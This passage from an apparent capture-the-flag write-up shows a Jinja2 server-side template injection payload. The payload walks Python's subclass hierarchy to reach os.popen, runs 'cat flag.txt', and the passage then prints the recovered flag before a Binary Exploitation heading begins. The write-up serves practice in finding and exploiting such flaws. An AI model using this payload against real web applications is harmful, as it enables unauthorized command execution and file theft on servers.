 - I modified this code to the class which i wanted and got the flag

```python
{% for c in ''.__class__.__mro__[1].__subclasses__() %}{% if c.__name__ == 'WarningMessage' %}{{ c.__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag.txt').read() }}{% endif %}{% endfor %}
```

![Screenshot 2025-02-28 213205.png](Files/Screenshot_2025-02-28_213205.png)

- And voilà! The flag was revealed in the receipt page.

```
flag {982e3b7286ee603d8539f987b65b90d4}
```

## Binary Exploitation

### 1. Echo

![image.png](Files/image%2024.png)
